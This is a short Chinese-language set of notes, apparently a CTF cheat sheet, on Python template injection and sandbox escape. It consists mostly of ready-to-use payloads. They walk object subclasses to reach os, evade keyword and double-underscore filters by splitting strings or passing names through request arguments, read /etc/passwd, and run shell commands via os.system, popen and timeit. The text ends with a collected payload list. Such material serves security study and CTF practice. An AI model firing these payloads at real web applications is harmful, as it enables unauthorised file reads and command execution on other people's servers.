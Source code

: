 poc 

```
{{session['cla'+'ss'].bases[0].bases[0].bases[0].bases[0].subclasses()[118]}}
```



多个bases[0]是因为一直在向上找object类。使用mro就会很方便

```
{{session['__cla'+'ss__'].__mro__[12]}}
```

或者

```
request['__cl'+'ass__'].__mro__[12]}}
```

**4.timeit姿势**

可以学习一下 2017 swpu-ctf的一道沙盒python题，

这里不详说了，博大精深，我只意会一二。



```
import timeit
timeit.timeit("__import__('os').system('dir')",number=1)

import platform
print platform.popen('dir').read()
```



**5.过滤一些函数名如`__import__`**

python的初始模块_builtin__里有很多危险的方法，一条路没了就找找其他的路
我们可以直接用 eval() exec() execfile()等

```
__builtins__.eval()
```



**6.过滤双下划线__**

request方法

```
{{''[request.args.class][request.args.mro][2][request.args.subclasses]()[40]('/etc/passwd').read()
}}&class=__class__&mro=__mro__&subclasses=__subclasses__
```



**globals**

```
[].__class__.__base__.__subclasses__()[59]()._module.linecache.os.system('ls')
```





**收藏的一些poc**

```
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls  /var/www/html").read()' )


object.__subclasses__()[59].__init__.func_globals['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('ls')


```